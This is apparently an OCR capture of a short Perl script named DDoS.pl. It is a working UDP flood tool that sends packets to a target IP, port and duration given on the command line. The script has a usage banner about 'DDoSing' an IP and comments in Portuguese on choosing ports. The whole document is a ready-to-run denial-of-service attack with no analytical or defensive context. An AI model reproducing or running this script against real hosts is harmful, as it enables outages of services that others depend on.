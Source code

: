 #!/usr/bin/perl
 
#Created by ./ANONYMOUS
#Port - Use '80' Para Pessoas ou Porta 53 Para DNS Ou 8090 Para Site
#Size - Use '100 - 1000' (Reccomended).
 
use Socket;
use strict;
 
print '
';
print "\n";
 
 
if ($#ARGV != 3) {
  print "\n\t\t\t***Error command must recieve four arguements***\n";
  print "-Ex) perl DDoS.pl 1.1.1.1 80 1000 300\n";
  print "-Therefore DDoSing the IP '1.1.1.1' for '300' seconds on port '80' using '1000' packets\n\n";
  exit(1);
}
 
my ($ip,$port,$size,$time) = @ARGV;
my ($iaddr,$endtime,$psize,$pport);
$iaddr = inet_aton("$ip") or die "Cannot connect to $ip\n";
$endtime = time() + ($time ? $time : 1000000);
socket(flood, PF_INET, SOCK_DGRAM, 17);
print "~To cancel the attack press \'Ctrl-C\'\n\n";
print "|IP|\t\t |Port|\t\t |Size|\t\t |Time|\n";
print "|$ip|\t |$port|\t\t |$size|\t\t |$time|\n";
print "To cancel the attack press 'Ctrl-C'\n" unless $time;
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1500-64)+64) ;
  $pport = $port ? $port : int(rand(65500))+1;
 
  send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport, $iaddr));}
